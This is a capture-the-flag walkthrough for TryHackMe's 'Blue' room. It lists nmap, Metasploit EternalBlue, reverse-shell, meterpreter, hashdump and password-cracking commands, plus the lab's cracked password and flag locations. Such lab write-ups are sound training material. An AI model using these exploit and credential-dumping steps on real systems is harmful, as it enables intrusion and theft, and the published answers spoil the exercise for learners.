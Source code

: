 Blue
====

TryHackMe's Blue is almost the same as VM's in the Metasploit Rooms but it tells you to do a lil extra and look a little further, which is kinda nice.

First step to this is to get the VM's IP and do an NMAP on it via this command: `nmap -sV -Pn -v -sC IP_ADDR` 

![Image](images/1.png)

When you are looking through the output, you see in the `smb-os-discovery` that the machine is running a version that is vulnerable to the eternalblue exploit (yay) and we can use metasploit to get access to this VM.

Run metasploit using `msfconsole` and run this command: `use exploit/windows/smb/ms17_010_eternalblue`. You are told to use a different payload instead of the default one, you can change the payload using this: `set payload windows/x64/shell/reverse_tcp`. This payload will directly give you a shell instead of a meterpreter shell. Change the RHOST (the machine you're targetting) using `set RHOSTS IP_ADDR` and your LHOST (if you're not on AttackBox) with the IP you were provided by the VPN using this command: `set LHOST IP_ADDR`

Run the exploit with `run` and you will be given a shell. Background this using Ctrl+Z and then find a post-exploiation module which will give you a meterpreter shell. This will be the post/multi/manage/shell_to_meterpreter module. type `use post/multi/manage/shell_to_meterpreter` and check the session number for your background tasks by typing `sessions`. Usually this should be 1 and you run following command `set session NUM`. It should be successful when this output shows:

![Image](images/2.png)

Change the session by using the following command: `sessions -i NUM` (Here, you use 2) and you will be given a meterpreter shell. Here you can do `hashdump` and get the hashes for all users, we can crack these by using john the ripper with the NT format. Jon's password is alqfna22.

To find the flags, drop to shell using the `shell` command and look in the following places:
```
1. C:\
2. C:\Windows\System32\config
3. C:\Users\Jon\Documents
```
